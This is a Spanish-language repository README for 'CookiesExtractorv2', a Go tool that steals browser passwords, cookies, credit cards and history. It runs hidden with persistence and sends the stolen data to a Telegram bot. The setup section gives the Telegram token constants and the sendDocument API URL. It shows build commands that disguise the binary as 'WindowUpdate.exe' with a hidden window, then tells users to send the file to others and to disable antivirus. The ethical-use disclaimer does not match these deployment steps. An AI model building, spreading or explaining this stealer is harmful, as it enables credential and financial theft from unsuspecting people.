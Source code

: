<h1>CookiesExtractorv2</h1>
CookiesExtractorv2 es una herramienta desarrollada en Go diseñada para extraer datos sensibles de navegadores web (contraseñas, historial, cookies, marcadores, tarjetas de crédito, historial de descargas, localStorage y extensiones). A diferencia de la herramienta base, esta versión opera de forma discreta en segundo plano, recolecta los datos extraídos y los envía automáticamente a un bot de Telegram configurado. Soporta los navegadores más populares en Windows, macOS y Linux, e incluye mecanismos para su persistencia y ocultamiento en el sistema objetivo.
  
`Esta herramienta es una modificación del proyecto original HackBrowserData y ha sido configurada para operar de manera autónoma, recolectando datos de navegación y enviándolos a un destino remoto (Telegram). Su uso implica la extracción y transmisión de información sensible del sistema donde se ejecuta.`

Esta herramienta está destinada EXCLUSIVAMENTE para fines de investigación de seguridad y pruebas de penetración ÉTICAS en entornos controlados y con el CONSENTIMIENTO EXPLÍCITO Y DOCUMENTADO del propietario del sistema. Cualquier uso no autorizado de este software para acceder, recopilar o exfiltrar datos sin el permiso expreso del propietario del sistema es ILEGAL y NO ÉTICO. El autor y los contribuidores no asumen ninguna responsabilidad legal o moral por cualquier uso indebido o ilegal de esta herramienta.

### Navegadores Compatibles

### Windows
| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge     |    ✅     |   ✅    |    ✅     |    ✅    |
| 360 Speed          |    ✅     |   ✅    |    ✅     |    ✅    |
| QQ                 |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| OperaGX            |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| Yandex             |    ✅     |   ✅    |    ✅     |    ✅    |
| CocCoc             |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |
| Internet Explorer  |    ❌     |   ❌    |    ❌     |    ❌    |


### MacOS

Based on Apple's security policy, some browsers **require a current user password** to decrypt.

| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge     |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| OperaGX            |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| CocCoc             |    ✅     |   ✅    |    ✅     |    ✅    |
| Yandex             |    ✅     |   ✅    |    ✅     |    ✅    |
| Arc                |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |
| Safari             |    ❌     |   ❌    |    ❌     |    ❌    |

### Linux

| Browser            | Password | Cookie | Bookmark | History |
|:-------------------|:--------:|:------:|:--------:|:-------:|
| Google Chrome      |    ✅     |   ✅    |    ✅     |    ✅    |
| Google Chrome Beta |    ✅     |   ✅    |    ✅     |    ✅    |
| Chromium           |    ✅     |   ✅    |    ✅     |    ✅    |
| Microsoft Edge Dev |    ✅     |   ✅    |    ✅     |    ✅    |
| Brave              |    ✅     |   ✅    |    ✅     |    ✅    |
| Opera              |    ✅     |   ✅    |    ✅     |    ✅    |
| Vivaldi            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox            |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Beta       |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Dev        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox ESR        |    ✅     |   ✅    |    ✅     |    ✅    |
| Firefox Nightly    |    ✅     |   ✅    |    ✅     |    ✅    |


## Instalación
Descarga el proyecto o clona el repositorio

```bash
$ git clone https://github.com/GrpDsG20/CookiesExtractorv2
```

### Configura tu bot de Telegram:
Antes de compilar, necesitas editar el archivo main.go en la ruta ``` cmd/hack-browser-data/main.go. ``` Busca las líneas TelegramToken y ChatID y reemplaza los valores por tu propio token de bot de Telegram y el ID de tu chat.
```bash
const (
    TelegramToken   = "TU_TOKEN_DE_BOT_AQUI" // Reemplaza esto con tu token real
    ChatID          = "TU_CHAT_ID_AQUI"     // Reemplaza esto con tu ID de chat real
    TelegramFileAPI = "https://api.telegram.org/bot%s/sendDocument"
)
```
###  Navega a la raíz de tu proyecto
```bash
$ cd CookiesExtractorv2
```

### Inicializa y limpia tu módulo (si aún no lo has hecho)
```bash
$ go mod tidy
```

###  Navega hasta este apartado
```bash
$ cd cmd\hack-browser-data
```

### Compila el ejecutable (desde la raíz del módulo)
```bash
$ go build -ldflags="-s -w -H=windowsgui" -o WindowUpdate.exe

```

### Envia el .exe por cualquier medio descargalo y ejecutalo 

> Nota: En algunas situaciones, esta herramienta de seguridad puede ser detectada como un virus por Windows Defender u otro software antivirus y no podrá ejecutarse. Es recomendable desactivar el antivirus temporalmente, como si instalaras cualquier programa "crackeado". El código es de código abierto, puedes modificarlo y compilarlo tú mismo. Ten en cuenta que esta versión modificada está diseñada para operar de forma sigilosa y enviar datos a un bot de Telegram, lo cual es la razón principal de tales detecciones.

### Compilación cruzada (Cross compile)
Aquí tienes un ejemplo de cómo usar macOS para compilar para Windows y Linux. Asegúrate de estar en la raíz de tu módulo (CookiesExtractorv2) cuando ejecutes estos comandos.

Para Windows
```bash
GOOS=windows GOARCH=amd64 go build -ldflags="-s -w -H=windowsgui" -o WindowUpdate.exe ./cmd/hack-browser-data
```
Para Linux
```bash
GOOS=linux GOARCH=amd64 go build -ldflags="-s -w" -o WindowUpdate ./cmd/hack-browser-data
```

### Ejecución
> Importante: Esta versión de la herramienta está diseñada para ejecutarse de forma sigilosa en segundo plano. Los ejemplos de comandos que se muestran a continuación corresponden al comportamiento de la herramienta original para exportación local y para fines de depuración o prueba de sus capacidades de extracción, no a la operación normal de esta versión modificada.


